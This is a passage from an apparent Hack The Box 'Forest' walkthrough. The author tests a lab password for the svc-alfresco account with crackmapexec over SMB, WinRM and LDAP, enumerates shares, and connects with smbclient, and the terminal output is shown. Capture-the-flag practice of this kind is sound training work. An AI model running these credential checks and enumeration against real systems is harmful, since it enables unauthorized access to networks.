 - Since i have credentials for user svc-alfresco then i will try to check wherethere i can login and get shell by using tool called crackmapexec

```
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ crackmapexec smb $IP -u 'svc-alfresco' -p 's3rvice'                
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
                                                                                                                                                                                                                                   
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ crackmapexec winrm $IP -u 'svc-alfresco' -p 's3rvice'
SMB         10.10.10.161    5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
                                                                                                                                                                                                                                   
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ crackmapexec ldap $IP -u 'svc-alfresco' -p 's3rvice'
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    445    FOREST           [-] htb.local\svc-alfresco:s3rvice Error connecting to the domain, are you sure LDAP service is running on the target ?

```

- From above, you can see that i can login with winrm in which it mean that i can use tool like evil-winrm to login in
- Let enumerate shares before login with winrm

```
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ crackmapexec smb $IP -u 'svc-alfresco' -p 's3rvice' --shares
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
SMB         10.10.10.161    445    FOREST           [+] Enumerated shares
SMB         10.10.10.161    445    FOREST           Share           Permissions     Remark
SMB         10.10.10.161    445    FOREST           -----           -----------     ------
SMB         10.10.10.161    445    FOREST           ADMIN$                          Remote Admin
SMB         10.10.10.161    445    FOREST           C$                              Default share
SMB         10.10.10.161    445    FOREST           IPC$                            Remote IPC
SMB         10.10.10.161    445    FOREST           NETLOGON        READ            Logon server share 
SMB         10.10.10.161    445    FOREST           SYSVOL          READ            Logon server share
```
- let check those share with smbclient

```
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ smbclient -L \\\\10.10.10.161\\NETLOGON -U 'svc-alfresco%s3rvice'     

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.161 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
                                                                                                                                                                                                                                   
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ smbclient \\\\10.10.10.161\\NETLOGON -U 'svc-alfresco%s3rvice' 
```